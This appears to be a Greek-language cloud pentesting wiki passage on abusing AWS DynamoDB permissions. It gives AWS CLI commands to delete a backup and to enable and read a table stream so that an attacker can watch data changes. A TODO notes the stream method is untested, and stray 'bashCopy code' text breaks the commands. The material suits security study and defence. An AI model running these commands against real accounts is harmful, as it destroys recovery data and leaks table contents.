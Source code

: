 ### `dynamodb:DeleteBackup`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί **να διαγράψει ένα αντίγραφο ασφαλείας DynamoDB, προκαλώντας ενδεχομένως απώλεια δεδομένων σε περίπτωση σεναρίου αποκατάστασης από καταστροφή**.
```bash
aws dynamodb delete-backup \
--backup-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable/backup/BACKUP_ID \
--region <region>
```
**Πιθανές επιπτώσεις**: Απώλεια δεδομένων και αδυναμία ανάκτησης από αντίγραφο ασφαλείας κατά τη διάρκεια ενός σεναρίου αποκατάστασης καταστροφών.

### `dynamodb:StreamSpecification`, `dynamodb:UpdateTable`, `dynamodb:DescribeStream`, `dynamodb:GetShardIterator`, `dynamodb:GetRecords`

{% hint style="info" %}
TODO: Δοκιμάστε αν αυτό λειτουργεί πραγματικά
{% endhint %}

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί **να ενεργοποιήσει μια ροή σε έναν πίνακα DynamoDB, να ενημερώσει τον πίνακα για να αρχίσει να ρέει οι αλλαγές και στη συνέχεια να έχει πρόσβαση στη ροή για να παρακολουθεί τις αλλαγές στον πίνακα σε πραγματικό χρόνο**. Αυτό επιτρέπει στον επιτιθέμενο να παρακολουθεί και να εξάγει τις αλλαγές δεδομένων, ενδεχομένως οδηγώντας σε διαρροή δεδομένων.

1. Ενεργοποιήστε μια ροή σε έναν πίνακα DynamoDB:
```bash
bashCopy codeaws dynamodb update-table \
--table-name TargetTable \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
--region <region>
```
2. Περιγράψτε τη ροή για να αποκτήσετε το ARN και άλλες λεπτομέρειες:
```bash
bashCopy codeaws dynamodb describe-stream \
--table-name TargetTable \
--region <region>
```
3. Πάρτε τον δείκτη τμήματος χρησιμοποιώντας το stream ARN:
```bash
bashCopy codeaws dynamodbstreams get-shard-iterator \
--stream-arn <stream_arn> \
--shard-id <shard_id> \
--shard-iterator-type LATEST \
--region <region>
```
4. Χρησιμοποιήστε τον shard iterator για να αποκτήσετε πρόσβαση και να εξάγετε δεδομένα από το stream:
```bash
bashCopy codeaws dynamodbstreams get-records \
--shard-iterator <shard_iterator> \
--region <region>
```
**Πιθανές επιπτώσεις**: Παρακολούθηση σε πραγματικό χρόνο και διαρροή δεδομένων των αλλαγών του πίνακα DynamoDB.
